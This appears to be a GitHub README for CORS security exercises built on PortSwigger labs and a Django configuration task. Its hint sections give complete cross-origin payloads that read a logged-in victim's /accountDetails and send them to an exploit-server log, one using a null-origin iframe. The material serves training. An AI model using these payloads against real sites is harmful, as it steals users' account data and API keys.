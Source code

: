 # Cross-Origin-Resource-Sharing
Cross-Origin Resource Sharing (CORS) is an HTTP-header based mechanism that allows a server to indicate any origins (domain, scheme, or port) other than its own from which a browser should permit loading resources.

## Getting Started
PortSwigger account is required [PortSwigger](https://portswigger.net/users/register)  
Necessary tools: [Burt Suite](https://portswigger.net/burp/communitydownload)

## Exercise 1
CORS vulnerability with basic origin reflection
> [Exercise_1](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

<details>
  <summary>Hint</summary>
    
    #This code my help you access logs  
    #In your browser, go to the exploit server and enter the following HTML, replacing $url with your unique lab URL  
  
    <script>
      var req = new XMLHttpRequest();
      req.onload = reqListener;
      req.open('get','$url/accountDetails',true);
      req.withCredentials = true;
      req.send();

      function reqListener() {
          location='/log?key='+this.responseText;
      };
    </script>
  
</details>

## Exercise 2
CORS vulnerability with trusted null origin  
> [Exercise_2](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)

## Exercise 3
CORS configuration in Django
Downloads BAWIM.tar.gz and BAWIM2.tar.gz
BAWIM.tar.gz contains a webserver that shows some images. 
BAWIM2.tar.gz contains a webserver that shows images from BAWIM.tar.gz
Your task is to allow webserver BAWIM2 to access files from BAWIM. 



<details>
  <summary>Hint</summary>  
    
    #This code my help you access logs  
    #In your browser, go to the exploit server and enter the following HTML, replacing $url with the URL for your unique lab URL and $exploit-server-url with the exploit server URL  
  
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" 
      srcdoc="<script>
      var req = new XMLHttpRequest();
      req.onload = reqListener;
      req.open('get','$url/accountDetails',true);
      req.withCredentials = true;
      req.send();
      function reqListener() {
        location='$exploit-server-url/log?key='+encodeURIComponent(this.responseText);
      };
      </script>">
    </iframe>  
  
</details>

## Exercise 3
![alt text](https://github.com/JJast/Cross-Origin-Resource-Sharing/blob/main/i1.png?raw=true)
![alt text](https://github.com/JJast/Cross-Origin-Resource-Sharing/blob/main/i2.png?raw=true)


